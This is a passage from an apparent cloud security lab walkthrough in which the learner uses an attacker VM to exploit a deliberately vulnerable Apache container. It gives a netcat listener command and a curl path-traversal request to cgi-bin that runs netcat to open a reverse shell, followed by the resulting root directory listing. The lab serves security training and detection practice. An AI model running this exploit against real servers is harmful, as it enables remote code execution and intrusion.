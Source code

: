 24. Close the window describing the Finding.
    

To proceed you will need to open the second SSH connection to the attacker-instance virtual machine.

25. In the Google Cloud Console open the Navigation menu and select **Compute Engine &gt; VM instances.**
    
26. Click SSH to access the attacker-instance virtual machine.
    
27. Accept the authorization prompts when the new SSH window opens.
    
28. Arrange your two SSH windows side-by-side so you can easily toggle between the two:
    

![d31a87b9170c7ea.png](https://cdn.qwiklabs.com/j12xIyZ0gjdBK6qIHz2hXN6RhzFZMArojt%2Bu9dX%2FGe4%3D align="left")

29. In the newly launched terminal window (the **2nd session**), run the netcat server listening session:
    

```apache
nc -nlvp 8888
```

You should see the following message:

```apache
Listening on 0.0.0.0 8888
```

30. Toggle to **1st session**.
    
31. Run the following command to launch a reverse shell session from inside the Apache container:
    

```apache
curl "http://${NODE_IP}:${NODE_PORT}/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh" --path-as-is --insecure --data "echo Content-Type: text/plain; echo; /tmp/nc ${LOCAL_IP} 8888 -e /bin/bash"
```

This command will stay active and will block our current terminal. **Do not interrupt it**—this is normal behavior.

32. Toggle to the **2nd session**, where you have just launched the `nc -nlvp 8888` command.
    
33. In this window, ensure you see a message similar to the following:
    

```apache
Connection received on 10.8.0.9 46686
```

34. Now in the **2nd session** enter the following command:
    

```apache
ls -l /
```

35. Ensure you see the content of the root directory of our vulnerable container outputted:
    

```apache
ls -l /
total 68
drwxr-xr-x   1 root root 4096 Sep 28  2021 bin
drwxr-xr-x   2 root root 4096 Jun 13  2021 boot
drwxr-xr-x   5 root root  360 Jul 14 00:13 dev
drwxr-xr-x   1 root root 4096 Jul 14 00:13 etc
drwxr-xr-x   2 root root 4096 Jun 13  2021 home
drwxr-xr-x   1 root root 4096 Sep 28  2021 lib
drwxr-xr-x   2 root root 4096 Sep 27  2021 lib64
drwxr-xr-x   2 root root 4096 Sep 27  2021 media
drwxr-xr-x   2 root root 4096 Sep 27  2021 mnt
drwxr-xr-x   2 root root 4096 Sep 27  2021 opt
dr-xr-xr-x 193 root root    0 Jul 14 00:13 proc
```